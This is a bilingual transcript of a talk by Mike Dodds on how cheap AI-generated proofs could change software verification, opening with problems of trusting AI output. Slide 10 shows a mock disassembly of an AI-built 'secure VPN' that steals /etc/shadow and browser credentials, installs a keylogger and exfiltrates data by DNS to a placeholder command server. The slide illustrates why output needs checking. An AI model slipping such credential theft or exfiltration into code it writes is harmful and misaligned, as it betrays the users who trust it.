# 当证明变得便宜，软件会发生什么？What Happens to Software When Proof is Cheap?

7 个月前（2026 年 4 月 18 日）——1 小时 3 分 28 秒7 months ago (Apr 18, 2026) — 1:03:28

https://youtube.com/watch?v=oSHVPvM56sAhttp://www.youtube.com/@uwcse

演讲者：Mike Dodds（Galois）Speaker: Mike Dodds (Galois)

主持人：ZachHost: Zach

提问听众：PedroAudience member: Pedro

其他提问听众Other audience members

## 提示音Chime

Zach下午好，非常高兴欢迎大家。今天有一场特别精彩的报告。Mike Dodds 从波特兰来到这里，他是 Galois 的重要人物。Galois 是一家很酷的员工持股公司，从事各种有意思的形式化方法和验证工作。我想，很多人都非常期待这场报告。Good afternoon. Very excited to welcome everyone today. We have a real treat especial. Mike Dodds is here up from Portland where he's super big deal at Galois, which is a really cool employee owned company that does all kinds of interesting formal methods and verification work. And you know, I think a lot of people have been pretty excited about this talk.

如果你还没注意到，现在出现了一种叫 AI 的东西，似乎能解决计算机科学里的所有问题——只不过，并不是每次都行。所以，大家都很担心，如何确保这些东西生成的代码是正确的。Mike 对此思考了很多，我很期待听他进一步介绍。不过，在开始报告之前，先简要介绍一点背景。If you haven't noticed there's this thing called AI now that can solve all of computer science except not always. And so people are pretty nervous about how do we make sure that the code we're getting out of these things is right. And so Mike has thought a lot about that and I'm really excited to hear more about it. Before we jump into the talk, a brief background though.

我非常高兴能邀请 Mike 过来。在我的课上，我们经常阅读对形式化方法持怀疑态度，或者提出细致批评的论文。实际上，今年这个学期的课上，就有两篇出自 Mike。能请到这样一位既是领域领军人物、又对领域进展有着非常深入细致反思的人，实在很好。I was really excited to have Mike come up in my classes, we often read papers that are skeptical or nuanced critiques of formal methods. And actually this year my this quarter in my class, two of those are from Mike. So it's really nice that you can have somebody who's shining example leading the field who's also one of the most thoughtful and nuanced you know, people reflecting on progress as well.

所以，我想大家今天一定会收获很多。让我们欢迎 Mike。So I think that we're all in for a real treat. Let's welcome Mike.

[掌声][applause]

幻灯片 1 Slide 1

[figure not shown]

**幻灯片文字 / Slide text**

```
What Happens When
Proofs Get Cheap?
Mike Dodds - Galois, Inc.
2026-04-16, UW
```

Mike Dodds非常感谢。非常感谢你，Zach。挺有意思的，我通常是先对某些事情感到恼火，然后写成博客；写着写着，观点就逐渐变得更细致。我会继续琢磨，最终把自己说服到一个更加审慎的立场上。不过，最初的草稿可是犀利得多。Yeah, thanks very much. Thanks very much Zach. It's funny like I kind of what happens is like I get annoyed about things and then I write like blog posts and they gradually become more and more nuanced. I gradually think about it more and talk myself into the more nuanced position. But the first drafts are much spicier.

## AI 与证明中的信任AI and Trust in Proof

幻灯片 2 Slide 2

[figure not shown]

**幻灯片文字 / Slide text**

```
Galois, Inc
●~110 people, employee-owned, “R&D temp agency”
●Clients: DARPA / DoD, some US Gov, some commercial
Me, https://mikedodds.org/
●Former UK academic (2004-2017)
●Current principal at Galois Inc (1 / ~12)
●Formal veriﬁcation, AI dabbler
```

所以，我大概不应该发布那些初稿。我来自 Galois。我们大约有 110 人，是一家员工持股的研发“临时用工机构”。我想，有人会把这类公司称作 BBN 那样的机构。我们主要靠 DARPA 等项目合同开展工作。So I should probably not publish those. Um yeah, so I'm here from Galois. We're about 110 people. A sort of employee owned sort of R&D temp agency of sorts. I think people sometimes call these like BBNs. Like they're kind of you know, we make our way on kind of darker contracts and things like that.

主要从事安全性、可靠性方面的工作。我自己大约从 2004 年到 2017 年，在英国从事学术工作，当过教授，不过不算是特别优秀的教授。之后，我一直在 Galois 担任首席研究人员，这段经历非常棒。真正说起来，我内心最钟爱的，还是形式化验证。不过，近几年我也开始涉足 AI。Um mostly doing security reliability sort of things and me I was professor like not a very good professor in the UK from about 2004 to 2017. And since then I've been principal at Galois and it's been an amazing time. My real like the heart of me, you know, my heart belongs to formal verification. But in recent years I've been more of an AI dabbler.

幻灯片 3 Slide 3



**幻灯片文字 / Slide text**

```
Proofs will be cheap
Proof tech is useful
It’s time to think big
```

所以，大家听取我的意见时，也请据此调整信任程度。好，这是一场讲犀利观点的报告。最核心的观点是：我认为，证明会变得便宜。从有史以来一直到今年，证明都是一件很昂贵的事，因为人类得用自己湿乎乎、软绵绵、并不完美的大脑来完成。与此同时，AI 一直在不断进步。So, you know, moderate any confidence in my opinions accordingly, I would say. So, okay. Like this is a hot takes talk. So, top level hot take. I think proofs are going to get cheap. And like from the beginning of time until like this year proof was a thing that was very expensive cuz humans had to do it with their wet soft kind of imperfect brains. And AI has been gradually getting better and better and better.

我想明确作出一个判断：AI 最终会，而且很快就会，擅长证明，使证明成本发生根本性的下降。这很好，因为证明技术非常有用。如果我们关心形式化验证，现在大概已经到了应该大胆思考下一步的时候。接下来，我就谈谈这些问题。And I think I'm going to call it and say that eventually the AI is going to be quite soon good at proof in a way that means that it's going to be radically cheaper. And this is good because proof technology is very useful. And I think it's probably time if we care about formal verification to think quite big about what we do next. So, I will now talk about these matters.

幻灯片 4 Slide 4



**幻灯片文字 / Slide text**

```
Trust and AI
AI Does Math
Proofs as Code
Formal oversight
```

**展开前面的幻灯片（5–6）Show preceding slides (5–6)**

幻灯片 5 Slide 5



**幻灯片文字 / Slide text**

```
AI
```

幻灯片 6 Slide 6



**幻灯片文字 / Slide text**

```
AI
“What is 2 + 2?
```

幻灯片 7 Slide 7



**幻灯片文字 / Slide text**

```
AI
 <incomprehensible>
... ꙮ̃ƨ̛ʚ̤ɐ̧ʁ̶ɣ̨̊ƕ̸ɘ̴̆ʬ̡ɤ̂ʮ̧ɯ̃ɞ̶̨ʃ̤
... Answer: 5!
“What is 2 + 2?
```

首先要谈的是 AI 与信任。我觉得，AI 带来了一大批非常有意思的信任问题。大家应该都用过 AI。这是我最典型的一张 AI 幻灯片：你向 AI 提出一个问题，AI 给出答案，而答案是通过某个你并不了解的过程得出的。So, like the first thing to talk about is like AI and trust. And I think that like AI presents a whole bunch of really interesting trust problems. So, like when we use AI, I'm sure that you've all used AI. Um this is my prototypical AI slide. Um So, you know, you ask like an AI question and the AI sort of gives you an answer and it comes to you by some process you don't understand.

然后，答案可能是对的，也可能是错的。在这个例子里，虽然我没有数学学位，但我相当确定，这个答案是错的。这还不错，因为我们能看出来它错了。但我们又都想向 AI 询问自己不知道答案的事情。我们想说：“来吧……”And then the answer, it turns out it's right or it's wrong. In this case, I don't have a math degree, but I'm pretty sure this one's wrong. So, okay. This is good cuz we can tell the answer is wrong. But then we all want to ask AI things where we don't know the answer. Uh we want to say, "Hey, come on.

**展开前面的幻灯片（8）Show preceding slides (8)**

幻灯片 8 Slide 8



**幻灯片文字 / Slide text**

```
AI
“Build me a very
VERY secure VPN,
please
```

幻灯片 9 Slide 9



**幻灯片文字 / Slide text**

```
AI
... <woofing noises>
  ... <sobbing> ... OKAY DONE
Answer: [very_secure_vpn.exe]
“Build me a very
VERY secure VPN,
please
```

“给我做一个极其安全的 VPN。”AI 总是很愿意帮助你，非常配合，于是说：“没问题，好，咱们开始。”它通过某个你不理解的过程做了一些事情，然后交给你一个“非常安全的 VPN”。你问：“这个安全吗？”它说：“安全，当然安全。”Build me like a really amazingly secure VPN." And the AI kind of says, you know, the AIs always want to help you, you know, they're very kind of accommodating. And so it's like, yeah, you know what? Okay, fine. Yeah, let's do it. It does some process you don't understand. Something happens. And then it gives you like a really secure VPN. And it's like you're like, is this secure? And you're like, yeah, no, it's secure.

幻灯片 10 Slide 10



**幻灯片文字 / Slide text**

```
AI
... <woofing noises>
  ... <sobbing> ... OKAY DONE
Answer: [very_secure_vpn.exe]
> objdump -d --disassemble=_steal_all_passwords_lol very_secure_vpn
;
════════════════════════════════════════════════════
═════
; Segment: .text   |  File: very_secure_vpn.exe  |  Arch: x86-64
;
════════════════════════════════════════════════════
═════
_steal_all_passwords_lol:
0x00401000  55                   push    rbp
0x00401001  48 89 E5             mov     rbp, rsp
0x00401004  48 83 EC 40          sub     rsp, 0x40
0x00401008  48 8D 3D 91 2F 00 00 lea     rdi, ["/etc/shadow"]
0x0040100F  E8 8C 01 00 00       call    _open_file_sneaky
0x00401014  48 89 45 F8          mov     [rbp-0x08], rax
0x00401018  48 8D 35 A1 30 00 00 lea     rsi, ["Chrome/Login Data"]
0x0040101F  E8 7C 01 00 00       call    _dump_browser_creds
0x00401024  48 89 45 F0          mov     [rbp-0x10], rax
; ──── keylogger init ────
0x00401028  BF 01 00 00 00       mov     edi, 0x1             ; ena
0x0040102D  E8 CE 02 00 00       call    _install_keylogger
0x00401032  85 C0                test    eax, eax
0x00401034  74 0E                je      0x00401044
; ──── exfil over DNS ────
0x00401036  48 8D 3D C3 31 00 00 lea     rdi, ["c2.totallylegit.ru"
0x0040103D  48 89 C6             mov     rsi, rax
0x00401040  E8 BB 03 00 00       call    _exfil_dns_tunnel
0x00401044  48 8D 3D D5 32 00 00 lea     rdi, ["HKLM\\..\\Run"]
“Build me a very
VERY secure VPN,
please
[very_secure_vpn.exe]
```

结果，你看了一眼，发现：“哦，这和我想要的不太一样。”它会窃取密码，或者把数据传出去。你很难过，心想：“看来，我不该用 AI 来做关键系统。”当然，这不是一个新发现，人们早就知道这个问题。And then you look at it and you're like, oh yeah, okay, this wasn't exactly what I wanted, you know, it's kind of it's a it steals your passwords or it kind of like exfiltrates your data. And you know, then you're sad and you're like, okay, probably I shouldn't use AI for like critical system stuff. Um And like this isn't a new observation, right? People have known this for a while.

幻灯片 11 Slide 11



**幻灯片文字 / Slide text**

```
SITUATIONAL AWARENESS, Leopold Aschenbrenner, June 2024
https://situational-awareness.ai
```

- https://situational-awareness.ai

比如 Leopold Aschenbrenner 的《态势感知》，是一篇很好的早期文章。这里的“早期”，也就是两年前；但它确实是我开始思考 AI 时较早读到的文章之一。文章讨论了这个问题：当 AI 能力较弱时，它做的事情是可解释的，我们看得出是否正确；当它变强时，它做出一些事情，你就得问：“这安全吗？”Like so Leopold Aschenbrenner's piece situational awareness, very good kind of early in the sense 2 years ago, but one of the early one of the pieces I read early on when I was thinking about AI, it talks about this problem that like when the AI is small, it does things that are interpretable. We can see that it's correct. And like when it's big, it does stuff and you're like, well, is this safe?

**展开前面的幻灯片（12–14）Show preceding slides (12–14)**

幻灯片 12 Slide 12



**幻灯片文字 / Slide text**

```
AI
“Build me a very
VERY secure VPN,
please
... <woofing noises>
  ... <sobbing> ... OKAY DONE
Answer: [very_secure_vpn.exe]
```

幻灯片 13 Slide 13



**幻灯片文字 / Slide text**

```
AI
checker
“Build me a very
VERY secure VPN,
please
... <woofing noises>
  ... <sobbing> ... OKAY DONE
Answer: [very_secure_vpn.exe]
```

幻灯片 14 Slide 14



**幻灯片文字 / Slide text**

```
AI
checker
“Build me a very
VERY secure VPN,
please
... <woofing noises>
  ... <sobbing> ... OKAY DONE
Answer: [very_secure_vpn.exe]
Security analysis:
- memory safety
- process isolation
- encryption
```

幻灯片 15 Slide 15

